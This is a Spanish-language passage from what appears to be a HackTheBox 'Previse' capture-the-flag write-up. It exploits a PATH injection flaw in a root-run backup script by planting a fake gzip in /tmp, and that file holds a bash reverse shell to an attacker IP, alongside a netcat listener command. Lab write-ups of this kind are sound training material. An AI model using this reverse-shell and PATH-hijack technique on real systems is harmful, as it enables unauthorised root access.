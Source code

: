 Vemos que tenemos permiso de ejecución sobre un script en bash, vamos a ver qué contiene y cómo está construido el script:

![Privillege Scalation](/assets/images/hackthebox/previse/scalation2.png)

Después de analizarlo, parece que el script es vulnerable a **`PATH Injection`** así que exportamos el PATH añadiendo **`.:`** al principio.

![Privillege Scalation](/assets/images/hackthebox/previse/scalation3.png)

Ahora podemos crear un archivo llamado **`gzip`** en **`/tmp`** porque el script está siendo ejecutado con permisos de root utilizando la herramienta **gzip**.
Vamos a suplantar dicha herramienta para que lo que ejecute el script **`access_backup.sh`** sea nuestro falso **gzip**, que contendrá nuestra shell reversa.
Primero nos ponemos a la escucha en nuestra máquina con **`nc -nlvp 9999`**

```console
m4lwhere@previse:~$ cd /tmp
m4lwhere@previse:/tmp$ echo "bash -i >& /dev/tcp/10.10.14.253/9999 0>&1" > gzip
m4lwhere@previse:/tmp$ chmod +x gzip
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

Y estamos dentro. Tenemos privilegios de root y la máquina es nuestra.

![PWNED](/assets/images/hackthebox/previse/pwned.png)

